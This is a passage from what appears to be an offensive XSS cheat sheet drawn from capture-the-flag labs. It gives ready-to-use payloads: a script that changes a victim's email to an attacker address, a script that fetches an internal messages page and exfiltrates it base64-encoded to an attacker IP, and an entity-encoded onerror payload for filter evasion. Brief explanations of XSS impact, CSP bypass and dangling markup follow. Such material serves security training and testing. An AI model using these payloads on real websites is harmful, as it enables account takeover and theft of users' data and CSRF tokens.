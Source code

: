 ```javascript
<script>user.changeEmail('attacker@hacker.thm');</script>
```
{% endcode %}

### Fetch content

```javascript
### load script
<script>
fetch('http://alert.htb/messages.php')
.then(resp => resp.text())
.then(body => {
    fetch("http://10.10.14.6/exfil?body=" + btoa(body));
})
</script>
```

### Via HTML Injection

[https://0xdf.gitlab.io/2025/07/05/htb-cat.html#admin-site-access](https://0xdf.gitlab.io/2025/07/05/htb-cat.html#admin-site-access)

```html
Cyberchef > To HTML Entity > Convert to: Hex entities
<img src="x" onerror="&#x61&#x6c&#x65&#x72&#x74&#x28&#x31&#x29&#x3b" />
```

## What can XSS be used for?

An attacker who exploits a cross-site scripting vulnerability is typically able to:

* Impersonate or masquerade as the victim user.
* Carry out any action that the user is able to perform.
* Read any data that the user is able to access.
* Capture the user's login credentials.
* Perform virtual defacement of the web site.
* Inject trojan functionality into the web site.

## Content security policy (CSP)

Content security policy (CSP) is a browser mechanism that aims to mitigate the impact of cross-site scripting and some other vulnerabilities. If an application that employs CSP contains XSS-like behavior, then the CSP might hinder or prevent exploitation of the vulnerability. Often, the CSP can be circumvented to enable exploitation of the underlying vulnerability.

## Dangling markup injection

Dangling markup injection is a technique that can be used to capture data cross-domain in situations where a full cross-site scripting exploit is not possible, due to input filters or other defenses. It can often be exploited to capture sensitive information that is visible to other users, including CSRF tokens that can be used to perform unauthorized actions on behalf of the user.
